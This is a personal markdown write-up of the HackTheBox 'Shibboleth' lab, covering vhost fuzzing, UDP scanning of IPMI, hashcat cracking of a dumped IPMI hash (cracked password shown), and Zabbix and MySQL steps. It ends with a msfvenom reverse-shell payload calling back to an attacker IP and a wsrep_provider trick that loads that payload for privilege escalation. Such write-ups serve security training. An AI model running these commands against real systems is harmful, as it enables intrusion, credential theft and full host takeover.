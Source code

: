 # Two is better than one
* https://vato.cc/hackthebox-writeup-shibboleth/
* https://infosecwriteups.com/shibboleth-hackthebox-walkthrough-f5c52d8949cf

### ffuf Vhosts Fuzzing
```
ffuf -u "http://shibboleth.htb/" -H "Host:FUZZ.shibboleth.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fc 302
```

Add them to the hosts
```
monitor                 [Status: 200, Size: 3686, Words: 192, Lines: 30]
monitoring              [Status: 200, Size: 3686, Words: 192, Lines: 30]
zabbix                  [Status: 200, Size: 3686, Words: 192, Lines: 30]
```

##### Vhosts vs. Sub-domains
The key difference between VHosts and sub-domains is that a VHost is basically a 'sub-domain' served on the same server and has the same IP, such that a single IP could be serving two or more different websites.

VHosts may or may not have public DNS records.

In many cases, many websites would actually have sub-domains that are not public and will not publish them in public DNS records, and hence if we visit them in a browser, we would fail to connect, as the public DNS would not know their IP. Once again, if we use the sub-domain fuzzing, we would only be able to identify public sub-domains but will not identify any sub-domains that are not public.

This is where we utilize VHosts Fuzzing on an IP we already have. We will run a scan and test for scans on the same IP, and then we will be able to identify both public and non-public sub-domains and VHosts.

### Nmap UDP the Sub-domains
##### Get running ports with rustscan
```

❯ docker pull rustscan/rustscan:latest
❯ docker run -it --rm --name rustscan rustscan/rustscan:1.10.0 10.129.187.84
```
##### Nmap the opening ports
```
❯ sudo nmap -sU -p 623 zabbix.shibboleth.htb
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-16 20:17 NZDT
Nmap scan report for zabbix.shibboleth.htb (10.129.187.84)
Host is up (0.26s latency).
rDNS record for 10.129.187.84: shibboleth.htb

PORT    STATE SERVICE
623/udp open  asf-rmcp

Nmap done: 1 IP address (1 host up) scanned in 0.66 seconds
```

### Google exploit asf-rmcp
* https://book.hacktricks.xyz/pentesting/623-udp-ipmi

##### Check version and dump hashes
```
hashcat -m 7300 hash /usr/share/wordlists/rockyou.txt
```

```
7c52d90982030000c46a8fbe259e2846070afb69ee206ad2e54ddc8fba4f43ff579e27b0442748eaa123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:d78f8dffe25735b4e9cc37c51519adb34b60fbaf:ilovepumkinpie1
```

### Others
```
system.run[command]

msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.29 LPORT=6666 -f elf-so -o elf

grep -iR 'password' /etc/zabbix/

mysql -D zabbix -u zabbix -pPasswordFoundAbove

SET GLOBAL wsrep_provider="/home/ipmi-svc/elf";
```